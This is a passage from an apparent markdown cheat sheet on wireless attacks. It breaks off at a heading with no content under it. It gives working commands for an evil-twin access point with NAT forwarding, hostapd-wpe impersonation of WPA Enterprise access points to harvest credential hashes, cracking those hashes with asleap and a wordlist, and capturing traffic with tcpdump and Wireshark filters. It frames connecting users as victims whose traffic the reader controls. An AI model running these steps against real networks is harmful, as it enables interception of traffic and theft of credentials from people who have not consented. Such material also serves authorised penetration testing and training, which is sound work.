 ```bash
sudo ifconfig at0 10.0.0.1/24 up
sudo service apache2 start
sudo sysctl -w net.ipv4.ip_forward=1
```

#### 💣 NAT Forwarding

```bash
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

Result → Victims connect to your fake AP, and you control all traffic.

***

### VI. 🧠 WPA Enterprise Attacks (EAP / RADIUS)

Use **hostapd-wpe** to impersonate enterprise APs and harvest credentials.

```bash
sudo hostapd-wpe hostapd-wpe.conf
```

Captured hashes appear in:

```
/var/lib/hostapd-wpe/
```

Crack with:

```bash
asleap -C <challenge> -R <response> -W /usr/share/wordlists/rockyou.txt
```

***

### VII. ⚙️ Packet Capture & Analysis

#### 🧩 Capture Live Traffic

```bash
sudo tcpdump -i wlan0mon -w traffic.cap
```

#### ⚙️ Analyze with Wireshark

Filters:

```
http.request
tcp.flags.syn==1
icmp
dns
```

#### 💣 Identify Credentials
